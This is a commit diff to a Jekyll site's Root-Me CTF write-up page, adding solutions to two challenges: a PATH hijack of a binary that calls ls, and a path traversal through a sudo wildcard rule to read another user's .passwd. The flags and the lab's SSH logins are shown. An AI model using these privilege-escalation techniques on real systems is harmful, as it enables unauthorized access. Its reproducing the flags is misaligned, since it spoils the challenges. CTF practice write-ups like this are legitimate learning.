

Before and after one commit to djm89uk/djm89uk.github.io, a Jekyll site: the page built from rootme_ascr.md, in a window 1280 px wide and 1400 px high, scrolled down 1802 px. Shown: the whole window, without its empty margins (288-991 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
Update rootme_ascr.md

```diff
--- a/rootme_ascr.md
+++ b/rootme_ascr.md
@@ -43,7 +43,7 @@ Exploit environment weaknesses, configuration mistakes and vulnerability pattern
 - Points: 5
 - Level: 1
 
-### Description
+### Statement
 
 Source Code:
 
@@ -97,7 +97,13 @@ app-script-ch11@challenge02:~$ strings .passwd
 strings: .passwd: Permission denied
 ~~~
 
-We obviously need to more clever. We can see from the c source code that the program calls the ls program without the complete path to the binary (/bin/ls).  We can simply copy the cat binary to the temporary directory:
+We obviously need to more clever. We can see from the c source code that the program calls the ls program without the complete path to the binary (/bin/ls).  We can simply copy the cat binary to a temporary directory and set the PATH variable to point to the new program:
+
+~~~shell
+app-script-ch11@challenge02:~$ cp /bin/cat /var/tmp/ls
+app-script-ch11@challenge02:~$ PATH=/var/tmp:$PATH ./ch11
+!oPe96a/.s8d5
+~~~
 
 </details>
 
@@ -108,7 +114,7 @@ We obviously need to more clever. We can see from the c source code that the pro
 <summary markdown="span">Answer</summary>
 
 ~~~
-
+!oPe96a/.s8d5
 ~~~
 
 </details>
@@ -121,24 +127,27 @@ We obviously need to more clever. We can see from the c source code that the pro
 
 ## sudo weak configuration
 
-- Author: name
-- X Points
+- Author: notfound404
+- Date: 6 February 2012
+- Points: 5
+- Level: 1
 
-### Description
+### Statement
 
-Description Here
+Wishing to simplify the task by not modifying rights, the administrator has not thought about the side effects ...
 
-### Hints
+### Connection
 
-1. Hint 1
+- Host: challenge02.root-me.org
+- Protocol: SSH
+- Port: 2222
+- SSH access: ssh -p 2222 app-script-ch1@challenge02.root-me.org     WebSSH
+- Username: app-script-ch1
+- Password: app-script-ch1
 
-### Connection Details
+### Resources
 
-1. Detail 1
-
-### Attachments
-
-1. Attachment 1
+1. [sudo you are doing it wrong](https://repository.root-me.org/Administration/Unix/EN%20-%20sudo%20you%20are%20doing%20it%20wrong.pdf).
 
 ### Solutions
 
@@ -146,7 +155,38 @@ Description Here
 
 <summary markdown="span">Solution 1</summary>
 
-Detail here
+We can connect to the challenge server:
+
+~~~shell
+$ ssh -p 2222 app-script-ch11@challenge02.root-me.org
+~~~
+
+We can look at the current directory:
+
+~~~shell
+app-script-ch1@challenge02:~$ ls
+ch1cracked  notes  readme.md
+app-script-ch1@challenge02:~$ pwd
+/challenge/app-script/ch1
+~~~
+
+The task suggests that this challenge is related to a weak sudo policy.  Let us look at the sudo policy:
+
+~~~shell
+app-script-ch1@challenge02:~$ sudo -l
+Matching Defaults entries for app-script-ch1 on challenge02:
+    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user
+
+User app-script-ch1 may run the following commands on challenge02:
+    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
+~~~
+
+We can see we can run sudo as another user, app-script-ch1-cracked to execute /bin/cat in directory /challenge/app-script/ch1/notes/*.  The flag is in /challenge/app-script/ch1/ch1cracked; we can use this to read the .passwd file:
+
+~~~shell
+app-script-ch1@challenge02:~$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
+b3_c4r3ful_w1th_sud0
+~~~
 
 </details>
 
@@ -157,7 +197,7 @@ Detail here
 <summary markdown="span">Answer</summary>
 
 ~~~
-
+b3_c4r3ful_w1th_sud0
 ~~~
 
 </details>
```
